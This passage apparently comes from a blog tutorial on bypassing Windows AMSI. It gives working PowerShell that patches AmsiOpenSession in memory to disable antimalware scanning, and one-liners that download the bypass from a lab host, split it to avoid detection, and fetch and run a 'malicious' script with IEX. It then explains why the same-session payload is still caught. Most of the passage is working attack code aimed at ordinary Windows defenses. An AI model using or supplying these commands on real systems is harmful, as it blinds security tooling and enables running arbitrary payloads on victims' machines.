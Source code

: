 ```

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiOpenSession")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

We still have to cut the script in 3, but, surprise, it works!

![image16.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image16.png)


We place this new script in full2.txt, do a bit of character counting, and we're
back to where we were previously. Still works.

```
$full =(New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full2.txt"); IEX($full.substring(0,583));IEX($full.substring(583,60)); IEX($full.substring(643,126))
```

![image17.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image17.png)



We restart PowerShell, and now try to combine this bypass with our
malicious script, on the same line, as done earlier:

```
$full =(New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full2.txt"); IEX($full.substring(0,583));
IEX($full.substring(583,60)); IEX($full.substring(643,126)); (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/malicious.txt")|IEX
```
![image18.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image18.png)


Fail! So what happened here? It looks like the bypass worked, since commands on
subsequent prompts don't get caught. However, our "malicious" script that
we tried to run on the same prompt as the bypass gets caught.

Remember that the exact same technique applied with an AmsiScanBuffer patch
worked fine.

Our problem here is that, although we patched AmsiOpenSession, our
malicious command is being run within the same AMSI session as the patching script.
A simplified view of what happens behind the scenes is shown below:

```
AmsiOpenSession()

AmsiScanBuffer(1-liner)
AmsiScanBuffer(bypass part 1)
AmsiScanBuffer(bypass part 2)
AmsiScanBuffer(bypass part 3)
AmsiScanBuffer(malicious script)

AmsiCloseSession()
```

